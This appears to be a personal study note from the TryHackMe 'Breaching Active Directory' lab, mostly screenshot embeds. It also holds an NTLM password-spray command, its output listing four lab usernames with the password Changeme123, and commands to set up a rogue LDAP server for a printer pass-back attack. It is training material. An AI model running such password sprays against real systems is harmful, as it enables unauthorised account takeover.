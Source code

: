### 25072023Tue

[TryHackMe | Breaching Active Directory](https://tryhackme.com/room/breachingad)

https://tryhackme.com/room/adenumeration

```
This network covers techniques and tools that can be used to acquire that first set of AD credentials that can then be used to enumerate AD.
```

![[Pasted image 20230725143900.png]]

![[Pasted image 20230725144838.png]]

http://ntlmauth.za.tryhackme.com/

![[Pasted image 20230725151419.png]]

![[Pasted image 20230725151526.png]]

![[Pasted image 20230725151648.png]]

THMDC
```
10.200.4.101
```

![[Pasted image 20230725152158.png]]

![[Pasted image 20230725152341.png]]

```
sudo systemctl restart NetworkManager
```

![[Pasted image 20230725152614.png]]

![[Pasted image 20230725152655.png]]

![[Pasted image 20230725152723.png]]

![[Pasted image 20230725153251.png]]

```
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
```

```
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```

![[Pasted image 20230725153638.png]]

![[Pasted image 20230725155644.png]]

http://printer.za.tryhackme.com/settings.aspx

![[Pasted image 20230725154742.png]]

![[Pasted image 20230725155233.png]]

```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

![[Pasted image 20230725160407.png]]

![[Pasted image 20230725160438.png]]

